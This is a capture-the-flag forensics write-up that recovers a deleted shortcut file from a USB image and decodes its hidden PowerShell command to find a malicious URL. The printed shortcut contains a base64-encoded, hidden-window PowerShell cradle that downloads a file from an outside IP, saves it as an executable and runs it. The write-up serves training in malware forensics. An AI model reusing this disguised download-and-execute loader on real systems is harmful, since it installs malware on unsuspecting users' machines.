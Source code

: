 # Where all problems start 1
#### forensics - [HeroCTF](../main.md)

## Challenge description:
> For a change of pace, a company has been attacked again... Nevertheless, the means used here is quite original, indeed, it would be apparently a food delivery man who would be at the origin of the initial compromise... For your first analysis, you will have to found what the USB key that the delivery man put in the computer contains.
>
> Could you provide us the malicious URL used to download something ?
>
> Download file: [dump.7z](../assets/dump.7z)

## Solution 
After we unzip the file, we can see what it is with the `file` command.
```
$ file usb.dump
usb.dump: DOS/MBR boot sector, code offset 0x58+2, OEM-ID "mkfs.fat", sectors/cluster 8, Media descriptor 0xf8, sectors/track 62, heads 124, hidden sectors 32, sectors 7831282 (volumes > 32 MB), FAT (32 bit), sectors/FAT 7640, reserved 0x1, serial number 0x9c286c52, unlabeled
```
We can use the `fls` command (part of [sleuthkit](https://www.sleuthkit.org/)) to see the files inside. This is useful as it also shows deleted commands, denoted by an `*`.
```
$ fls usb.dump
r/r * 5:        Important_Document.lnk
r/r 7:  README.txt
v/v 125055523:  $MBR
v/v 125055524:  $FAT1
v/v 125055525:  $FAT2
V/V 125055526:  $OrphanFiles
```
The `Important_Document.lnk` file seems interesting, and we can use the `icat` command to extract it from the dump.
```
$ icat usb.dump 5 > Important_Document.lnk
$ cat Important_Document.lnk
v1.0l2�FS�k powershell.exeNerShe�FS�k�T8�.N�xz?powershell.exeh-g�v��C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe<..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe�-Nop -sta -noni -w hidden -encodedCommand YwBkACAAQwA6AFwAVQBzAGUAcgBzAFwAVwBvAHIAdAB5AFwAQQBwAHAARABhAHQAYQBcAEwAbwBjAGEAbABcAFQAZQBtAHAAXAAgADsAIABJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAIgBoAHQAdABwADoALwAvADEANAA2AC4ANQA5AC4AMQA1ADYALgA4ADIALwBpAG0AZwAuAHAAbgBnACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAGkAZQB4AHAAbABvAHIAZQByADYANAAuAGUAeABlACIAIAA7ACAALgBcAGkAZQB4AHAAbABvAHIAZQByADYANAAuAGUAeABlAA==0C:\Programmes\Windows NT\Accessories\wordpad.exe�%SystemDrive%\Programmes\Windows NT\Accessories\wordpad.exe%SystemDrive%\Programmes\Windows NT\Accessories\wordpad.exe�%�
                                                              �wN���]N�D.��Q���`�Xdesktop-ji20hrm0gF&_zE���]���R�e����^
                                                                                                                       )M&�0gF&_zE���]���R�e����^
                                                                                                                                                 )M&��	��1SPS�XF�L8C���&�m�q/S-1-5-21-1162904530-3654154924-4196022673-100091SPS�mD��pH�H@.�=x�hH�<���A��7v��)
```
While it isn't completely in plaintext, there is an encoded command in PowerShell. We can use [Cyberchef](https://gchq.github.io/CyberChef/) to decode it.

![Screenshot of Cyberchef](../assets/ksnip_20220529-172825.png)

The requested URL is our flag :)
<details> 
    <summary>Flag</summary>
Hero{http://146.59.156.82/img.png}
</details>